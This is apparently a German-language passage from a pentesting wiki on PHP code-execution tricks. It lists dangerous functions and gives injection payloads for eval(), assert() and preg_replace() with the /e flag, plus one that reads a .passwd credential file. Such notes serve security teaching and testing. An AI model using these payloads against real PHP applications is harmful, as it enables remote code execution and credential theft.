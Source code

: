 ![](<../../../.gitbook/assets/image (1085).png>)

## SSRF in PHP-Funktionen

Überprüfen Sie die Seite:

{% content-ref url="php-ssrf.md" %}
[php-ssrf.md](php-ssrf.md)
{% endcontent-ref %}

## Codeausführung

**system("ls");**\
&#xNAN;**\`ls\`;**\
**shell\_exec("ls");**

[Überprüfen Sie dies für nützliche PHP-Funktionen](php-useful-functions-disable_functions-open_basedir-bypass/)

### **RCE über** **preg\_replace()**
```php
preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")
```
Um den Code im "replace"-Argument auszuführen, ist mindestens ein Treffer erforderlich.\
Diese Option von preg\_replace ist **seit PHP 5.5.0 veraltet.**

### **RCE über Eval()**
```
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```
### **RCE über Assert()**

Diese Funktion innerhalb von php ermöglicht es Ihnen, **Code, der in einer Zeichenkette geschrieben ist, auszuführen**, um **true oder false zurückzugeben** (und je nach dem die Ausführung zu ändern). Normalerweise wird die Benutzervariable in die Mitte einer Zeichenkette eingefügt. Zum Beispiel:\
`assert("strpos($_GET['page']),'..') === false")` --> In diesem Fall könnten Sie tun, um **RCE** zu erhalten:
```
?page=a','NeVeR') === false and system('ls') and strpos('a
```
Du musst die **Code-Syntax** **brechen**, deine **Payload** **hinzufügen** und sie dann **wieder reparieren**. Du kannst **logische Operationen** wie "**and" oder "%26%26" oder "|"** verwenden. Beachte, dass "or", "||" nicht funktioniert, da unsere Payload nicht ausgeführt wird, wenn die erste Bedingung wahr ist. Ebenso funktioniert ";" nicht, da unsere Payload nicht ausgeführt wird.

**Andere Option** ist, den Befehl zur Zeichenkette hinzuzufügen: `'.highlight_file('.passwd').'`
